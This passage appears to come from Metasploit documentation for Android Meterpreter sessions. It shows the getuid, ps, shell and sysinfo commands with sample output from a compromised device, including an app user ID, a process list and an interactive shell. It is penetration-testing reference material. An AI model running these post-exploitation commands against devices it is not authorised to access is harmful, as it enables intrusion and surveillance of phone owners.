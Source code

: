 The ```getuid``` command shows the current user that the payload is running as:

```
meterpreter > getuid
Server username: u0_a231
```

**ps**

The ```ps``` command shows a list of processes the Android device is running. For example:

```
meterpreter > ps 

Process List
============

 PID    Name                                                         Arch  User
 ---    ----                                                         ----  ----
 1      /init                                                              root
 2      kthreadd                                                           root
 3      ksoftirqd/0                                                        root
 7      migration/0                                                        root
 8      rcu_preempt                                                        root
 9      rcu_bh                                                             root
 10     rcu_sched                                                          root
 11     watchdog/0                                                         root
 12     watchdog/1                                                         root
 13     migration/1                                                        root
 14     ksoftirqd/1                                                        root
 17     watchdog/2                                                         root
 18     migration/2                                                        root
 19     ksoftirqd/2                                                        root
 22     watchdog/3                                                         root
 23     migration/3                                                        root

...
```

**shell**

The ```shell``` command allows you to interact with a shell:

```
meterpreter > shell
Process 1 created.
Channel 1 created.
id
uid=10231(u0_a231) gid=10231(u0_a231) groups=1015(sdcard_rw),1028(sdcard_r),3003(inet),9997(everybody),50231(all_a231) context=u:r:untrusted_app:s0
```

To get back to the Meterpreter prompt, you can do: [CTRL]+[Z]

**sysinfo**

The ```sysinfo``` command shows you basic information about the Android device.
